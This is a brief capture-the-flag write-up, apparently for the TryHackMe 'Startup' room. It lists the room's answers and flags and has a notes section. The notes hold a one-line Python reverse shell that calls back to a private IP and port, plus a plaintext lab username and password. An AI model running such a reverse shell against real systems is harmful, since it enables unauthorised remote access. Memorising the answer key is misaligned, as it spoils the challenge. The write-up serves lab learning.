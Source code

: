 # TryHackMe Startup

# Saikat Karmakar | Jan 19:2021

# Task 1 
1. What is the secret spicy soup recipe?
```
love
```
2. What are the contents of user.txt?
```
THM{03ce3d619b80ccbfb3b7fc81e46c0e79}
```
3. What are the contents of root.txt?
```
THM{f963aaa6a430f210222158ae15c3d76d
```



***Notes***

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.23.120",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

```
user = lennie 
pass = c4ntg3t3n0ughsp1c3
```